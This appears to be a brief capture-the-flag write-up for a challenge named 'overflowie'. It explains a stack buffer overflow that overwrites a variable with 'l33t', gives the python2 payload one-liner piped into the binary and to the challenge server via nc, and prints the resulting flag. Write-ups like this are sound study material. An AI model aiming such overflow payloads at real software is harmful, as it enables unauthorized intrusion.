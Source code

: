 ## overflowie

Flag: ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}

I inspected the file with objdump and I saw that I needed to do a buffer overflow.

The following payload is generated:
- 0x50 - 0x04 = 76 random bytes in order to fill the buffer;
- l33t = 0x6c333374 in order to overwrite the value of the variable which has to be equal to l33t.

```
python2 -c 'print "A" * 76 + "\x6c\x33\x33\x74\x00"' | ./overflowie
python2 -c 'print "A" * 76 + "\x6c\x33\x33\x74\x00"' | nc 34.107.86.157 32276
Enter the very secure code to get the flag: 
Omg you found the supersecret flag. You are l33t ind33d
ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}
```

[Back](../unbreakable.md)
